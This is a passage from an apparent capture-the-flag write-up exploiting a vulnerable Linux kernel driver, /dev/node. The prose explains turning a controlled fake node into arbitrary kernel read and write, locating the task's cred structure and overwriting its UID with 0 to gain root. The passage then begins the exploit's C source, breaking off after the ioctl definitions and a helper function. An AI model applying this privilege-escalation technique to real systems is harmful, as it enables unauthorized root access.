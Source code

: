 We exploit the controlled node primitive to build an arbitrary read primitive.
The info ioctl, along other values, also outputs us the `size` of the node's
`traversal`. Since we control the `traversal` field, this allows us to read a
8-byte integer from an arbitrary address (repeatedly). We use the read, coupled
with the pointers we leaked earlier, to scan the heap and find our fake node (we
put a unique marker as id). Then, since during the info ioctl the `state_lock`
lock is held, we can read `current` from the mutex, and our task's `cred`
pointer from that.

We then abuse cleanup logic on a fake node to free the leaked distance array
that was still allocated, so that the next (properly sized) query will reclaim
it and thus put its distance array at the same known address.
Querying a fake node also gives us control over `traversal_idx`, and so now the
query OOB can be turned into an arbitrary write.

We use the write to overwrite our task's UID in its `cred` to 0.
Then, we can simply open the root-owned `/flag` and read it.

```c
#define _GNU_SOURCE

#include <stdio.h>
#include <stdint.h>
#include <assert.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <pthread.h>
#include <sys/mman.h>
#include <syscall.h>
#include <linux/userfaultfd.h>
#include <poll.h>
#include <sys/xattr.h>
#include <errno.h>
#include <signal.h>
#include <sys/klog.h>
#include <stdlib.h>
#include <string.h>
#include <stdbool.h>
#include <semaphore.h>

#define DEV_PATH "/dev/node"
#define SPARK_FINALIZE 0xd902
#define SPARK_LINK 0x4008d900
#define SPARK_QUERY 0xc010d903
#define SPARK_INFO 0x8018D901

struct spark_ioctl_query {
	int fd1;
	int fd2;
	long long distance;
};

struct spark_info {
	unsigned long num_children;
	unsigned long traversal_idx;
	unsigned long traversal_size;
};

static unsigned g_create_next_id;

static int create()
{
	int fd = open(DEV_PATH, O_RDONLY);
	assert(fd != -1);
```